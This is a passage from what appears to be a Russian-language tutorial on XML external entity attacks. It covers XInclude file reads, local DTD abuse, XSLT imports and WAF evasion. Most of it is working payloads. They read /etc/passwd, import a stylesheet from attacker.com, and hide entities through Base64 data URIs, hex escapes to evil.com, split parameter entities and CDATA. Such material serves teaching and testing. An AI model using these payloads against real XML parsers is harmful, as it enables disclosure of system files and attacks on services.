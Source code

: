 Пример чтения файла `/etc/passwd`:
```
<?xml version="1.0"?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```
 Атрибут parse определяет, как обрабатывать содержимое:
   - parse="text" — вставить как текст.
   - parse="xml" — интерпретировать как XML (может привести к повторным инъекциям).

#### 4.2. Использование локальных DTD-файлов
Некоторые XML-парсеры позволяют использовать локальные DTD-файлы, даже если внешние сущности отключены. Это может быть использовано для создания параметрических сущностей и выполнения атак.

#### 4.3. Использование XSLT
XSLT (Extensible Stylesheet Language Transformations) — это язык для преобразования XML-документов. Если XSLT не настроен безопасно, это может быть использовано для атак, похожих на XXE.

```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:import href="http://attacker.com/malicious.xsl"/>
</xsl:stylesheet>
```

#### 4.4. Обход WAF

- Base64-кодировку
```
<!DOCTYPE foo [
  <!ENTITY % payload SYSTEM "data:;base64,ZmlsZTovLy9ldGMvcGFzc3dk">
]>
```
Здесь `ZmlsZTovLy9ldGMvcGFzc3dk` — это `file:///etc/passwd` в Base64.

- Hex-кодировку
```
<!ENTITY % ext SYSTEM "ht&#x74;p://evil.com">
```

- Разделение атаки через параметрические сущности
```
<!DOCTYPE foo [
  <!ENTITY % part1 "SY">
  <!ENTITY % part2 "STEM">
  <!ENTITY % combined "%part1;%part2;">
  <!ENTITY % payload SYSTEM "file:///etc/passwd">
]>
```

- Внедрение данных через CDATA может помочь скрыть вредоносные сущности
```
<data><![CDATA[<!ENTITY % xxe SYSTEM "file:///etc/passwd">]]></data>
```

#### 4.5. Атаки без явного определения сущностей
